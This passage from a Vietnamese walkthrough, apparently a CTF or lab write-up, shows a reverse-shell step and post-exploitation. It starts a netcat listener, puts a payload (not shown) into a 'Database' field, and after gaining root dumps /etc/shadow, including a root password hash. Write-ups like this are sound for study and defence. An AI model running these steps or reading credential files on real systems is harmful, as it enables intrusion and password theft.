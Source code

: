 Giải thích nhanh gọn, thì những gì payload kia sẽ làm là lấy shell thông qua protocol TCP, chúng ta cùng chuẩn bị nhé.

Chạy một listener trên máy trước: `nc -lvnp 4444`

Và sau đó điền payload vào trường `Database`, nhấn test.

![](./sqlmap-2.png)

Đơn giản vậy thôi, chúng ta đã lấy được shell rồi =)))

# 3. Kiểm tra hệ thống 

Sau khi đã lấy được quyền root, mình sẽ xem qua file `/etc/shadow`, để xem danh sách các user có mặt trong hệ thống

```bash
$ cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
```
